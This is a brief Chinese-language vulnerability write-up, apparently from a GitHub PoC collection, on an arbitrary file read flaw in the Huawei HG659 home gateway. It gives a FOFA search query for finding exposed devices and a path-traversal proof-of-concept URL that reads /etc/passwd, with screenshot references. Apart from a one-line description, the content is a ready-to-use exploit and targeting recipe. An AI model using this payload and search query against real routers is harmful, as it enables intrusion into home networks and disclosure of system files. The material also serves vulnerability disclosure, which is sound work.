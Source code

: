 # Huawei-HG659-lib-任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> Huawei HG659 

## FOFA

> [!NOTE]
>
> app="HUAWEI-Home-Gateway-HG659"

## 漏洞复现

登录页面如下

![image-20210615141459903](Huawei-HG659-lib-任意文件读取漏洞.assets/1627363574526977.jpg)

POC如下

```
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![image-20210615141751249](Huawei-HG659-lib-任意文件读取漏洞.assets/1627363574731047.jpg)